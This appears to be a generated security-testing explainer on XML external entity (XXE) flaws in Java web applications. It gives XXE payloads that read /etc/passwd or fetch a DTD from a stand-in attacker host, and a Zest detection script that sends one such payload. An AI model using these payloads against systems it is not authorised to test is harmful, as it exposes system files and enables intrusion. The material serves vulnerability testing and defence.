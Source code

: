 # Improper Restriction of XML External Entity Reference (CWE-611) in Java

#### Explanation of Improper Restriction of XML External Entity Reference

### Overview
Improper Restriction of XML External Entity (XXE) vulnerabilities occur when XML input containing a reference to an external entity is processed without sufficient restriction. These vulnerabilities can lead to the disclosure of confidential information, denial of service, SSRF (Server-Side Request Forgery), and potentially other malicious actions.

#### Manifestation in Java Web Applications
Java web applications, especially those using popular frameworks like Spring, Struts, or using libraries for XML processing such as JAXB, can be susceptible to XXE vulnerabilities if they're not properly configured to disable external entity processing.

### Common Injection Points
XXE vulnerabilities can be exploited by injecting malicious XML payloads through:
- URL parameters
- HTTP request bodies (POST data)
- HTTP headers
- Cookies
- Query strings

### Example Payloads
Here are some example XXE payloads that might be used to test for vulnerabilities:
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```
This payload tries to access the `/etc/passwd` file on a Unix system.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://www.attacker.com/malicious.dtd" >]>
<foo>&xxe;</foo>
```
This payload attempts to fetch an external DTD file from an attacker's server.

### Indicators of Success
Successful exploitation can be identified by:
- Error messages indicating parsing issues.
- The inclusion of sensitive data (e.g., contents of `/etc/passwd`) in the response.
- HTTP status codes other than 200 (e.g., 500 Internal Server Error).
- Time delays suggesting external resources are being fetched.

### Zest Scripting for XXE Detection

#### Key Components
- **ZestRequest:** Used to generate and send requests to the target web application.
- **ZestAssertion:** Used to define expected outcomes in responses.
- **ZestAction:** Used to take actions based on certain conditions.
- **ZestExpression:** Used for logic and control flow within the script.

#### Example Zest Script Structure
Here is an example structure for a Zest script to detect XXE vulnerabilities through various inputs:

```json
{
  "about": "Detecting XXE vulnerabilities",
  "zestVersion": "0.8",
  "title": "XXE Detection Script",
  "description": "This script detects XXE vulnerabilities in a target application",
  "prefix": "http://targetapplication.com/",
  "statements": [
    {
      "url": "http://targetapplication.com/api/vulnerableEndpoint",
      "method": "POST",
      "data": "<?xml version=\"1.0\"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM \"file:///etc/passwd\" >]><foo>&xxe;</foo>",
      "headers": "Content-Type: application/xml",
      "assertions": [
        {
          "rootExpression": {
            "code": 200,
            "not": false,
            "elementType": "ZestExpressionStatusCode"
          },
          "elementType": "ZestAssertion"
        },
        {
          "rootExpression": {
            "regex": "root:x",
            "location": "BODY",
            "not": false,
            "elementType": "ZestExpressionRegex"
          },
          "elementType": "ZestAssertion"
        }
      ],
      "index": 1,
      "elementType": "ZestRequest"
    }
  ],
  "elementType": "ZestScript"
}
```

The script includes a POST request to a potentially vulnerable endpoint with an XXE payload. It asserts that the response status is 200 and checks for the presence of the "root:x" string in the response body, indicating the contents of `/etc/passwd`.

### Variations
To cover various injection points, scripts can be adjusted to include payloads in URL parameters, headers, query strings, and cookies. Additionally, various payloads targeting different systems (e.g., Windows, remote servers) should be included.

## Review and Documentation

To fine-tune the scripts and ensure low false positives/negatives:
- Evaluate the target application to identify endpoints that process XML.
- Analyze responses carefully for indicators of successful exploitation.
- Customize payloads based on the application's underlying environment and technologies.

### References
For deeper understanding and further details:
- OWASP ZAP Zest Scripting Documentation【4†Zest_Scripting_Documentation.md】
- Example and test payloads provided in WSTG documentation  .